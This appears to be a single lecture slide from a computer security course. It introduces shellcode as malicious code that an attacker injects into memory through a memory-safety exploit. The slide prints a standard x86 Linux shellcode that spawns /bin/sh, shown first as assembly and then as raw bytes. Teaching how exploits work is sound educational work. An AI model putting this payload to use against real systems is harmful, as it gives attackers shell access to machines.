

# Writing Malicious Code
The most common way of executing malicious code is to place it in memory yourself
Recall: Machine code is made of bytes
Shellcode: Malicious code inserted by the attacker into memory, to be executed using a memory safety exploit
Called shellcode because it usually spawns a shell (terminal)
Could also delete files, run another program, etc.
xor %eax, %eax
push %eax
push $0x68732f2f
push $0x6e69622f
mov %esp, %ebx
mov %eax, %ecx
mov %eax, %edx
mov $0xb, %al
int $0x80
Assembler
0x31 0xc0 0x50 0x68 0x2f 0x2f 0x73 0x68 0x68 0x2f 0x62 0x69 0x6e 0x89 0xe3 0x89 0xc1 0x89 0xc2 0xb0 0x0b 0xcd 0x80
45